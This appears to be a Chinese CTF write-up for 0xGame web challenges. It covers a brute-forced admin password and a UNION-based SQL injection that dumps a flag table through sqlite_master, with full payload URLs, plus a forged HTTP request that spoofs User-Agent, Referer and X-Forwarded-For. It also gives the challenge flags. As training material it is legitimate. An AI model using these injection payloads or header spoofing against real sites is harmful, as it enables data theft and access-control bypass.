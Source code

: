 
爆破发现，密码为admin123。

![image-20241011155022847](C:\Users\13150\AppData\Roaming\Typora\typora-user-images\image-20241011155022847.png)

![image-20241011155225807](C:\Users\13150\AppData\Roaming\Typora\typora-user-images\image-20241011155225807.png)

获得flag：`0xGame{It_Is_Easy_Right?}`

## ez_sql

输入 `http://47.76.152.109:60080/?id=1 order by 5#` 不报错，但输入 `http://47.76.152.109:60080/?id=1 order by 6#` 报错，说明该表格有五列。

接下来就可以使用union了，先将前面的语句出错，就可以查自定义的语句了，`http://47.76.152.109:60080/?id=1 and 1=0 union select 1, 2, 3, 4, 5 from users`，测试发现可以回显。

![image-20241011162141695](C:\Users\13150\AppData\Roaming\Typora\typora-user-images\image-20241011162141695.png)

先跑表 `http://47.76.152.109:60080/?id=1 and 1=0 union select 1, 2, 3, 4, group_concat(name) from sqlite_master`，获取表名`flag,users`。

![image-20241011162207161](C:\Users\13150\AppData\Roaming\Typora\typora-user-images\image-20241011162207161.png)

再跑列`http://47.76.152.109:60080/?id=1 and 1=0 union select 1, 2, 3, 4, group_concat(sql) from sqlite_master where name = 'flag'` 得到 `hacker`，被过滤了，呜呜。

不加就是了，`http://47.76.152.109:60080/?id=1 and 1=0 union select 1, 2, 3, 4, group_concat(sql) from sqlite_master`，得到所有列，其中flag表只有flag列。

![image-20241011162239491](C:\Users\13150\AppData\Roaming\Typora\typora-user-images\image-20241011162239491.png)

继续跑值 `http://47.76.152.109:60080/?id=1 and 1=0 union select 1, 2, 3, 4, group_concat(flag) from flag`

![image-20241011162321074](C:\Users\13150\AppData\Roaming\Typora\typora-user-images\image-20241011162321074.png)

获得flag：`0xGame{Do_not_Use_SqlMap!_Try_it_By_Your_Self}`，哈哈，我没用SqlMap。

## hello_http

用bp抓包给重放器，改一下http，他有几个要求，每完成一项奖励一点flag：

1. 用x1cBrowser浏览器访问。User-Agent 改为 x1cBrowser
2. 提交hello=world。GET后写`/?hello=world`
3. Post提交web=security。Get改为POST，加一句`Content-Type: application/x-www-form-urlencoded` 后输入web=security
4. 从 `http://localhost:8080/` 访问。写 `Referer: http://localhost:8080/`
5. 从 `127.0.0.1` 访问。写`X-Forwarded-For: 127.0.0.1`

最终http为：

```http
POST /?hello=world HTTP/1.1
Host: 8.130.84.100:50002
User-Agent: x1cBrowser
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Cookie:flag=secret
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Content-Length: 12
Content-Type: application/x-www-form-urlencoded
Referer: http://localhost:8080/
X-Forwarded-For: 127.0.0.1

```